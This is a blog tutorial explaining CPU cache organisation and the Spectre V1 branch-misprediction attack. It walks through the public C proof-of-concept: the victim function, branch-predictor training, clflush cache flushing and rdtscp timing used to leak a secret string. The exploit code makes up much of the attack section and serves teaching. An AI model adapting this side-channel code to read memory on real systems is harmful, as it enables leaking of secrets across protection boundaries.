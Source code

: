 Title: Spectre V1
Date: 2019-4-21 10:01
Modified: 2019-1-21 10:01
Category: tutorial
Tags: spectre, cache
Slug: spectre_v1
Authors: F3real
Summary: How spectre V1 works

There are multiple spectre variants, but we will take look only at POC of V1 and try to understand it. But first, lets take a look at how CPU cache works:

[TOC]

##CPU cache

CPUs usually have 3 cache levels (L1, L2 and L3). Accessing higher cache level takes longer (more latency).  There can also be different caches for memory and instructions for example: L1 data cache (d-cache) and L1 instruction cache (i-cache).
Data is transferred between memory and cache in blocks of fixed size, called `cache lines` or `cache blocks`. Cache line size is in power of 2 (usually between 16 and 128 bytes). `Cache set` is a 'row' in a cache containing multiple cache blocks depending on layout.

To map memory addresses to cache entry we split it in three different parts:

~~~text
          +---------------------------------------------------------+
          |       TAG        |      SET INDEX     |     OFFSET      |
          +---------------------------------------------------------+
~~~
Getting data from cache follows following algorithm:

1. Use the `set index` to identify which cache set the address should reside in.
2. For cache each block in the corresponding cache set, compare the `tag` associated with that block to the tag from the requested memory address. If there is a match, proceed to the next step. Otherwise, the data is not in the cache.
3. For the block where the data was found, look at valid bit. If it is 1, the data is in the cache and we have a `cache hit`, otherwise it is not. 

`Offset` part of the request address is used to select a portion of the matching cache line.
If we fail to find data in cache we have a `cache miss`. In this case, procedure is repeated  to  attempt  to  retrieve  the  data  from  the  next  cache levels, and finally external memory.

If cache block size is `B` (B being smallest addressable unit), then we need b bits for `offset` part of address:

![Formula for calculating offset size]({static}/images/2019_4_23_equation1.svg){: .img-fluid .centerimage}

If `S` is the number of sets in our cache, then the `set index` has s bits:

![Formula for calculating set index size]({static}/images/2019_4_23_equation2.svg){: .img-fluid .centerimage}

Remaining bits are used for `tag`
.
If each set contains k lines then we say that the cache is k-way associative.
`Direct mapped` cache has one line in each set (1-way associative).
`Fully-associative` cache has only one set, and thus don't use set bits.

If the requested address is not found in the cache, then it will be brought in from memory along with the data near it (to take advantage of spatial locality) and placed there. To determine which addresses will also be brought in, we find the starting and ending address of the range that will be brought in. The starting address can be found by “zeroing out” the block offset part of the address. For the ending address, we replace the block offset with all 1’s. Note that the size of this range will always be the size of a cache block. The data in that range will be brought in and placed in one of the blocks in the cache.
If no blocks are free, some of the old data will be evicted from cache to make space.

##Spectre V1

Spectre V1 is based on exploiting conditional branch misprediction.
Full spectre paper can be found [here](https://spectreattack.com/spectre.pdf).

In general spectre attacks use the fact that processor can speculatively   execute code that it shouldn't and even after results of executing it are reverted, side effects of execution are left behind which can be exploited to leak data.

Branch prediction helps processors increase performance, but also makes processors speculatively execute code. Processors use Branch Target Buffer (BTB) which keeps  a  mapping  from  addresses  of  recently  executed branch instructions  to  destination  addresses to improve prediction.

For V1 attacker first starts with training branch predictor so that it will make wrong prediction later on. After this training phase attacker makes processor access out of bound value and load data to cache based on it. Measuring time to access data we can check what was loaded in cache and leak it.

Let's look at POC:

First we have few defined global variables:

~~~c
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t unused2[64];
uint8_t array2[256 * 512]; /* 1 Mb */
const char * secret = "The Magic Words are Squeamish Ossifrage.";
~~~

Unused arrays serve as padding ensuring that data around them falls into different cache lines (L1 cache often has 64 byte lines). `Secret` array represents information we are trying to leak and `array1` represent memory attacker has access to (shared between attacker and target). Size of `array1` is not important.

~~~c
uint8_t temp = 0; /* Used so compiler won’t optimize out victim_function() */
void victim_function(size_t x) {
	if (x < array1_size) {
		temp &= array2[array1[x] * 512];
	}
}
~~~

Victim function accesses memory based on attacker provided `x`. In case that
branch predictor makes wrong prediction, process will start executing `if` even with out-of-bounds `x`. This will load `array2[array1[x] * 512]` in cache (in case of out-of-bounds `x`, value loaded in cache will depend on some secret byte `k`).

Attacker needs to make sure that `array1_size` and `array2` are uncached.
If `array1_size` is uncached, it will cause delay in evaluation of branch condition while value is being fetched from memory. This delay can be substantial so instead of waiting for results to be determined, processor will start executing code speculatively based on branch predictor (which is trained by attacker to assume that branch is taken). Reading `array2[array1[x] * 512]` also takes time (due to cache miss). While this is happening processor may evaluate branch prediction, realise it made mistake and rewind state, but value loaded from `array2` will remain in cache. Attacker needs to make sure `array2` was uncached so that he can deduce `k` based on what value was loaded in cache.

We use `512` as array stride, this way we access different cache lines.

Next, we have `readMemoryByte` function which tries to leverage `victim_function` and leak secret data.

~~~c
/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
	static int results[256];
	int tries, i, j, k, mix_i, junk = 0;
	size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t * addr;

    /* Initialize result table*/
	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {

		/* Flush array2[256*(0..255)] from cache */
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&array1_size);
			for (volatile int z = 0; z < 100; z++) {} /* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
			/* Avoid jumps in case those tip off the branch predictor */
			x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
			x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */
			victim_function(x);

		}

		/* Time reads. Order is lightly mixed up to prevent stride prediction */
		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp((unsigned int *)&junk); /* READ TIMER */
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp((unsigned int *)&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
				results[mix_i]++; /* cache hit - add +1 to score for this value */
		}

		/* Locate highest & second-highest results results tallies in j/k */
		j = k = -1;
		for (i = 0; i < 256; i++) {
			if (j < 0 || results[i] >= results[j]) {
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k]) {
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
	}
	results[0] ^= junk; /* use junk so code above won’t get optimized out*/
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}
~~~

Let's look at some parts in more depth:

We start setting up attack by clearing entire `array2` from cache. We use 256 as number of values since that's covers all possible byte values. 

> _mm_clflush - Invalidate and flush the cache line that contains p from all levels of the cache hierarchy.

~~~c
for (i = 0; i < 256; i++)
    _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */
~~~

After this we make call victim function 5 times with correct index (making branch predictor think it will be taken next time as well). After training part we call victim function with our `malicious_x` index. Before calls to victim we also flush `array1_size` which finishes setting up our attack.
We repeat this procedure few times to increase confidence in our guess.

After this we have timing part. We access `array2` elements, time the access and if it's below threshold we increase corresponding value in `results` array. Only exception is value that we used to train branch predictor, which we skip (`array1[tries % array1_size]`). We access elements in pseudo random order to avoid stride predictor. If access patterns follows stride, processor can detect it and prefetch values which would ruin our results.

For measurement we are using `__rdtscp` since it is pseudo-serializing (it waits until all previous instructions have executed and all previous loads are globally visible unlike `__rdtsc`) which makes it less likely to be executed out of order.

Rest of function is not that interesting, we select two best results and return them.

This POC uses Flash + Reload trick to leak sensitive information, but we can also use Evict + Reload combo. Evict + Reload uses cache contention, instead of flushing cache we replace the memory by loading something else instead.


Slightly modified POC source code can be found [here](https://github.com/F3real/ctf_solutions/tree/master/2019/Spectre%20V1).
If you are interested in more about Spectre you can take a look at Chandler Carruth [talk](https://www.youtube.com/watch?v=_f7O3IfIR2k) from CppCon 2018.

